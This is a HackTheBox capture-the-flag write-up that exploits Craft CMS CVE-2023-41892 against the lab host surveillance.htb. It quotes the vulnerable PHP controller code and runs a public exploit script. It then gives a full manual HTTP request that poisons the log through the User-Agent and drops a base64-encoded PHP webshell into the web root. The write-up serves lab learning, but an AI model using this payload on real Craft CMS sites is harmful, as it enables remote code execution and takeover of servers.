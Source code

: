 From  [this](https://threatprotect.qualys.com/2023/09/25/craft-cms-remote-code-execution-vulnerability-cve-2023-41892/) Qualys blog post, we find informations on that vulnerabilty:

> Craft CMS has a relatively small pre-auth attack surface like other content management systems. But the \craft\controllers\ConditionsController class has a beforeAction method that may allow an attacker to create an arbitrary object.  
Craft CMS and its dependents’ code bases contain several tools that can invoke methods selectively, such as \GuzzleHttp\Psr7\FnStream or including arbitrary files. An attacker may inject some PHP code into the Craft CMS’s log file on successful exploitation.

The vulnerable code snipet from CraftCMS is the following:

```php
public function beforeAction($action): bool
{
   $baseConfig = Json::decodeIfJson($this->request->getBodyParam('config'));
   $config = $this->request->getBodyParam($baseConfig['name']);
   $newRuleType = ArrayHelper::remove($config, 'new-rule-type');
   $conditionsService = Craft::$app->getConditions();
   $this->_condition = $conditionsService->createCondition($config);
   Craft::configure($this->_condition, $baseConfig);
```

And a POC for the exploit:

![[poc_surveillance.png]]

### Public Exploit

As the goal in HackTheBox is to get root on the machine as fast as possible, I first used a public exploit found on Github (link above). See below for manual exploitation.

```py
python3 craft-cms.py http://surveillance.htb
```

### Manual Exploitation

This [article](https://blog.calif.io/p/craftcms-rce) shows us that we can poison the log and get a webshell by injecting php code inside the user-agent when the request is sent.

Don't forget to encode in base64 the webshell.

```http
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: <?php `echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=|base64 -d > /var/www/html/craft/web/shell.php`;?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 239

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2023-11-24.log"}]}}
```
